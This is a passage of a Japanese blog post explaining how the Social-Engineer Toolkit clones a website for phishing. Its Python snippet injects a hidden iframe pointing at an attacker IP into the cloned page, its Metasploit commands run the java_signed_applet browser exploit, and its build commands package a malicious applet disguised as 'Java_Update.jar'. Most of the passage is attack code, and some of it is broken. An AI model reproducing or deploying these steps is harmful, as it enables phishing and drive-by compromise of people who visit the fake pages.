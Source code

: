 ```
</script>
##################################################################################################
##################################################################################################
##################################################################################################
```

　pythonでhtmlを整形する際に、特定のタグ<body>タグなどをreplaceしてしまい
悪意あるコードに書き換えてしまう方法などもあります。使用方法としては、フ
ィッシングページを作成する際に同時にmetasploitで悪意あるJavaアプレットな
どが挿入してしまう方法があります。
　また、下記ではhtml内の特定のタグを書き換える関数です。

```
############################################
####<head>タグにiframeを挿入するサンプル####
############################################
def replases(html)
    #Rewrite the head tag of html
    fileopen=file("/clone/index.html","r").readlines()
    try:   
        line=line.replace("<head>", '<head><iframe src = "http://%s:80/" width="100" height="100" scrolling="no" ></iframe>' % (ipaddr))
        filewrite.write(line)
```

　MetasploitのJava appletの生成も参考程度ですが、以下です。

```
###########################################
#######Metasploitのコマンドサンプル########
###########################################
  msf > use exploit/multi/browser/java_signed_applet
      msf exploit(java_signed_applet) > show targets
            ...targets...
      msf exploit(java_signed_applet) > set TARGET <target-id>
      msf exploit(java_signed_applet) > show options
            ...show and set options...
      msf exploit(java_signed_applet) > exploit
```

　setoolkitが使用している方法は、下記のようにすでに作成してあるJava.java
というアプレット用のファイルをコンパイルします。

```
subprocess.Popen("rm Java_Update.jar", stderr=subprocess.PIPE, stdout=subprocess.PIPE, shell=True)
subprocess.Popen("rm Java.class", stderr=subprocess.PIPE, stdout=subprocess.PIPE, shell=True)
subprocess.Popen("javac Java.java", shell=True).wait()
subprocess.Popen("jar cvf Java_Update.jar Java.class", shell=True).wait()
subprocess.Popen("jar ufm Java_Update.jar manifest.mf", shell=True).wait()
subprocess.Popen("cp Java_Update.jar ../../html/unsigned/unsigned.jar", shell=True)
```

　これをコピーサイト作成の段階で、replaceで置き換えています。

  - Pythonで悪意あるJava appletを挿入
http://exploit.co.il/hacking/metasploit-java-meterpreter-payload/
  - PythonでMetasploitの自動化
http://www.primalsecurity.net/python-for-metasploit-automation/

